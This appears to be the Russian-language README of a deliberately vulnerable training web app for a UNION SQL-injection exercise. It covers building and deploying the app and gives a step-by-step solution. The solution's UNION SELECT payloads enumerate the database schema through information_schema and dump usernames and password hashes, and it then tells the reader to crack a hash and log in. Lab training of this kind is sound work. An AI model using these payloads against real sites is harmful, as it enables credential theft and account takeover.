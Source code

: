 # UNION SQL-инъекция

Данное веб-приложение создано для демонстрации простой UNION SQL-инъекции и представляет собой тренировочное задание. Его цель — разместить новость на главной странице сайта.

Можно добавить элемент соревнования и проводить выполнение задания несколькими людьми на скорость, кто первый запостит новость со своим именем, тот и победил.

Приложение оформлено в виде Docker-образа, однако может использоваться и отдельно.


## Сборка из исходных кодов

**Системные требования:**

* GNU Make
* Node.js, NPM
* PHP

**Как собирать:**

```sh
make
```

Результаты сборки помещаются в папку `build`. Проект поддерживает параллелизацию сборки (`make -jN`).


## Развёртывание и использование

```sh
cd build && docker build .
docker container create <id_образа>
docker container start <id_контейнера>
```

Веб-сервер будет прослушивать HTTP на порте 80.


## Пример решения задания

Уязвимым является поле поиска новостей.

1. Подбор количества полей в исходном запросе:

    ```sql
    … UNION SELECT 1,2,3,4,5 -- foo
    ```

2. Получение имени базы данных:

    ```sql
    … UNION SELECT 1,DATABASE(),3,4,5 -- bar
    ```

3. Получение таблиц данной базы данных:

    ```sql
    … UNION SELECT 1,table_name,3,4,5 FROM information_schema.tables WHERE table_schema='sqlinj' -- baz
    ```

4. Получение столбцов таблиц:

    ```sql
    … UNION SELECT 1,column_name,3,4,5 FROM information_schema.columns WHERE table_schema='sqlinj' AND table_name='config' -- spam
    … UNION SELECT 1,column_name,3,4,5 FROM information_schema.columns WHERE table_schema='sqlinj' AND table_name='nyoows' -- tuna
    … UNION SELECT 1,column_name,3,4,5 FROM information_schema.columns WHERE table_schema='sqlinj' AND table_name='uzwers' -- fish
    ```

5. Получение списка пользователей:

    ```sql
    … UNION SELECT 1,username,password,4,5 FROM uzwers -- moo
    ```

6. Ломаем хеш, заходим под пользователем, размещаем новость.
7. ?????
8. PROFIT!
